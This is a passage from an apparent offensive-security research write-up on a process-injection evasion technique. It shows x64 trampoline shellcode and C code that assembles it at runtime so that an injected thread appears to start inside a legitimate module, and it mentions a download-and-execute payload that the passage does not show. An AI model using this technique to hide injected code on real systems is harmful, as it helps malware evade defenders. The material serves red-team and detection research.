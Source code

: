 ###### Shellcode 2 - Trampoline

This trampoline shellcode is needed just as a fake start address for our new thread, if that's not clear
immediately, it will be during the demo. The key point to remember is that this trampoline will be overwritten 
by the "restore" shellcode, while the real shellcode, copied on the heap, won't.

```asm
mov r15, <ADDRESS-OF-HEAP-RX-MEMORY>
jmp r15
```

This "trampoline", however, can't be assembled before-hand, as we need to know the address of the RX memory
region, that would be allocated at runtime. To solve the problem, we generate the shellcode in real time. 

```
UCHAR patch[13] = { 0 };
// mov r15, <address>
patch[0] = 0x49;
patch[1] = 0xBF;
// Hton Trampoline Address
patch[2] = target & 0x00000000000000ff;
patch[3] = (target & 0x000000000000ff00) >> 8;
patch[4] = (target & 0x0000000000ff0000) >> 16;
patch[5] = (target & 0x00000000ff000000) >> 24;
patch[6] = (target & 0x000000ff00000000) >> 32;
patch[7] = (target & 0x0000ff0000000000) >> 40;
patch[8] = (target & 0x00ff000000000000) >> 48;
patch[9] = (target & 0xff00000000000000) >> 56;
// jmp r15
patch[10] = 0x41;
patch[11] = 0xFF;
patch[12] = 0xE7;
```

This trick, in practice, mask the thread source when the shellcode is later executed as a thread,
as it can be observed below:

![Thread-FunctionHijack](./assets/fun-jack-thread-started-in-legit-module.png)

###### Shellcode 3 - Main Logic

The main logic of our shellcode should be where we actually execute the code we want, we download and
execute, or... whatever. As this is just a PoC and I like the calculator, the logic would be as simple
as:


[1]: https://github.com/klezVirus/inceptor.git
[2]: https://github.com/Idov31/FunctionStomping
[3]: https://bruteratel.com/research/feature-update/2021/01/30/OBJEXEC/
[4]: https://github.com/Idov31/FunctionStomping
[5]: https://twitter.com/Idov31
[6]: https://twitter.com/hasherezade
[7]: https://twitter.com/modexpblog
[8]: https://www.arashparsa.com/bypassing-pesieve-and-moneta-the-easiest-way-i-could-find/
[9]: https://twitter.com/waldoirc
[10]: https://github.com/waldo-irc/YouMayPasser/
[11]: https://blog.f-secure.com/cowspot-real-time-module-stomping-detection/
[12]: https://twitter.com/_rastamouse
[13]: https://offensivedefence.co.uk/posts/module-stomping/